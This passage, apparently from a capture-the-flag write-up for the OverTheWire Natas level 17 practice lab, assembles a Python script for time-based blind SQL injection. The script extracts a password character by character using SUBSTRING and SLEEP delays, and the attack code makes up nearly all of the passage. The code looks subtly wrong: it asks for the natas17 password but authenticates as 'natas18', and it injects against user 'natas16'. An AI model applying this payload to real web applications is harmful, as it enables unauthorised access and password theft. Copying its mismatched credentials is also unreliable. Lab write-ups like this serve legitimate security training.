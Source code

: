 This is also fairly easy:

```python
for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
```

#### Step 4: The SQL Injection String

```python
password_guess = correct_guesses + char
print(password_guess)
sqli = f'natas16" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }" AND SLEEP(5) -- '
```

#### Step 5: Web Server Request

```python
import requests

response = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=("natas18", password), data={ "username": sqli })
```

#### Step 6: Response Handling

```python
if response.elapsed.total_seconds() > 5:
    correct_guesses += char
    break
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas17: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
  # Step 3: Loop over the password characters
  for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
    # Step 4: The SQL Injection String
    password_guess = correct_guesses + char
    print(password_guess)
    sqli = f'natas16" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }" AND SLEEP(5) -- '

    # Step 5: Web Server Request
    response = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=("natas18", password), data={ "username": sqli })

    # Step 6: Response Handling
    if response.elapsed.total_seconds() > 5:
        correct_guesses += char
        break
```
